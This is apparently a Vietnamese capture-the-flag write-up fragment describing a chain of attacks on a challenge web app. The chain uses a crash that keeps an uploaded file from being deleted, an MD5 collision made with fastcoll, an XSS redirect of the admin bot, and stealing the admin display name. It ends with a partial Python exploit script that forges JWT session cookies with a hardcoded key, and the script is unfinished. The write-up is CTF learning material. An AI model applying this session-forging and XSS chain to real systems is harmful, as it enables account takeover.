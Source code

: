 ```go 
```
MÌnh đã không nghĩ tới trường hợp này trong lúc giải và cũng đã không test thử function này đó là lý do mình ko tìm được bug . Vì serverr hỗ trợ autorestart nên lúc này hàm crash và file của mình sẽ không bị xóa .
Nhưng còn một điều nữa là mình cần phải có md5 EQUAL thì cái nì khá đơn giản vì có lỗi md5 collision khá nổi tiếng và có tool hỗ trợ là fastcoll . 

- Khi có được xss thì ta chỉ cần redirect bot tới : 
/api/users/{guesser_id}/guesses/guess_id
- Stole được display_name và register với username admin và display_name cùng với session cần được signed và phần còn lại như trên
 
Script của mình  : 

```py
import requests
import threading

import jwt

admin_username = "admin-71aaf14e-55d3-4a88-8c31-e9db2f265c3e"
admin_displayName = "eccdce48-7f26-421b-9d75-65f7002453d5"

JWT_KEY ="FUCK"
FLAG_SO_ID  = ""
MALICOUS_SESSION  =""

url =  "http://localhost:5555"
url = "http://34.59.119.124:17005"
XSS_PATH = ""


def register(username, password,display_name="1337",payload=None):   
    s=  requests.Session()
    data = {
        "username": username,
        "password": password,
        "display_name": display_name,
    }
    

    token = ""
    if payload : 
        token = jwt.encode(payload, JWT_KEY, algorithm="HS256")
    with open("flag.so", "rb") as flag_file:
        files = {"flag": flag_file}
        cookies = {"session": token}
        response = requests.post(f"{url}/register",data=data, files=files, cookies=cookies, allow_redirects=False)
        print(response.cookies)
        return response

def login(username, password):
    s = requests.Session()
    data = {
        "username": username,
        "password": password,
    }
    response = s.post(f"{url}/login", data=data,allow_redirects=False)
    print(response.cookies)
    return s



```